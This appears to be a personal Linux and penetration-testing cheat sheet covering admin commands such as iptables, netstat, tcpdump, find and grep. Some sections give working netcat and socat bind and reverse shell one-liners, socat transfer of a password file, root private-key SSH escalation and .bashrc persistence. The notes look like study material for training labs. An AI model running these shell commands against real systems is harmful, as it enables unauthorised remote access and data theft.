 ### Show logger
who  
last  
/var/log 检查日志

### Disk Partition
lsblk  
sudo fdisk -l

### Show network connections
netstat -natup  
ss -natup

### Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### echo current shell
echo $SHELL

### echo environmental variable
env

### Sed
###### extract first 1-1000 lines
```
sed -n '1,1000p' file
```

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### NC bind shell
```
nc -nlvp 4444 -e cmd.exe
nc -nv 10.11.0.22 4444
```

### NC reverse shell
```
nc -nlvp 4444
nc -nv 10.11.0.22 4444 -e /bin/bash
```
### Socat encrypted bind shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 30 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem

sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:192.168.22.31:443,verify=0

socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash
windows:socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Socat reverse shell
```
socat -d -d TCP4-LISTEN:443 STDOUT(shell listener)
socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash(shell listener)
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
socat - TCP4:172.16.53.20:456(shell connection)
```

### IPTables
```
sudo iptables -L (show iptables) --line-numbers(optional)
Append a rule to the INPUT chain for a source network of 192.168.1.0/24 for all protocols: sudo iptables -s 192.168.1.0/24 -p all -A(append)/D(delete)/I(insert) INPUT
sudo iptables -s 127.0.0.1 -d 127.0.0.1 -A INPUT
sudo iptables -s 192.168.1.37 -p tcp -A INPUT
sudo iptables -D INPUT 5(linenumber)
sudo iptables -nvL(show traffic)
sudo iptables -P FOWARD DROP(change default policy of forward to drop)
sudo iptables -R(replace) INPUT 1 -s 192.168.1.37 -d 127.0.0.1 -p tcp --dport 8080
Final: sudo iptables-save
```

#### stateful firewall
**INVALID**: The packet is associated with no known connection.  
**NEW**: The packet has started a new connection or otherwise associated with a connection that has not seen packets in both directions.  
**ESTABLISHED**: The packet is associated with a connection that has seen packets in both directions.  
**RELATED**: The packet is starting a new connection, but is associated with an existing connection, such as an FTP data transfer or an ICMP error.  
**UNTRACKED**: The packet is not tracked at all, which happens if you explicitly un-track it by using -j CT --notrack in the raw table.  
```
sudo iptables -I INPUT 1 -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
sudo iptables -I INPUT 2 -m conntrack --ctstate INVALID -j DROP
sudo iptables -L --line-numbers
```


### Tcpdump
sudo tcpdump -i any -w file.pcap

### Find
find /usr -type f -exec md5sum {} + | grep "d61d579501ab8ff507120780191929d5"
> find only files under usr with hash value d61----



### SSH 免密登录(manual way: copied over the id_rsa.pub file to authorized_keys)
> First way:  
> ssh-keygen  
> ssh-copy-id -i /home/kali/.ssh/id_rsa.pub kali@remote_ip  
> Second way:  
> ssh-keygen  
> ssh-copy-id remote-username@remote_ip  

###### Using root's private key to gain root access
chmod 400 private_key  
ssh -i private_key username@remote_ip(usually required for normal user already logged in,then can used as privilege escalation)   

### Systemd
journalctl -u network.service(See network service messages)  
systemctl show service(Show properties of a service or other unit)  
journalctl(Show all collected log messages)  
journalctl -k(Show only kernel messages)

### list commands current users can/can't execute 
sudo -l

### Use of .bashrc or .zshrc(check shell you are using first)
make persistent alias by adding (alias ..='cd')  
execute command when user logins in by adding command (echo "xingdi")

### Ndisasm
```
ndisasm [-a] [-i] [-h] [-r] [-u] [-b bits] [-o origin] [-s sync...]
               [-e bytes] [-k start,bytes] [-p vendor] file
   -a or -i activates auto (intelligent) sync
   -u same as -b 32
   -b 16, -b 32 or -b 64 sets the processor mode
   -h displays this text
   -r or -v displays the version number
   -e skips <bytes> bytes of header
   -k avoids disassembling <bytes> bytes from position <start>
   -p selects the preferred vendor instruction set (intel, amd, cyrix, idt)
```
### grep
```
To search for a string in all files under the / directory and its subdirectories, use the following command:

grep -r "string" /

This will search for the string “string” in all files under the / directory and its subdirectories.

To search for a string in all files under the / directory and its subdirectories, but only display the names of the files that contain the string, use the following command:

grep -rl "string" /

This will search for the string “string” in all files under the / directory and its subdirectories, but only display the names of the files that contain the string.

To search for a string in a specific file under the / directory, use the following command:

grep "string" /path/to/file
```
